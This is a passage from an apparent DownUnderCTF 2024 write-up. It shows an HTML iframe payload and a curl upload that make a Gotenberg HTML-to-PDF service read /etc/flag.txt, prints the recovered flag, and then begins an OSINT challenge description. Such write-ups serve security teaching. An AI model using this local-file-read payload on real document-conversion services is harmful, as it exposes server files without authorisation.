 ```html
    <iframe src="\\localhost/etc/flag.txt"></iframe>
</div>
</body>
</html>
```

Note that I have changed the paths to `/etc/flag.txt`, we know that's the location due to the `Dockerfile`. Now, we need to run the following command in our terminal to upload our malicious payload to the Gotenberg service and try to trigger the vulnerability.

```bash
curl --request POST https://web-hah-got-em-20ac16c4b909.2024.ductf.dev/forms/chromium/convert/html --form files=@index.html -o my.pdf
```

When our request gets completed, we will get `my.pdf` in our current working directory. This is the content of `my.pdf`:

![gotenberg 2](./DownUnderCTF2024_assets/gotenberg_2.png)

`DUCTF{dEeZ_r3GeX_cHeCK5_h4h_g0t_eM}`

# OSINT / cityviews (easy)

## Description

> *After having to go on the run, I've had to bunker down. Which building did I capture this picture from?*

> *NOTE: Flag is case-insensitive and requires placing inside `DUCTF{}`! e.g `DUCTF{building_name}`*
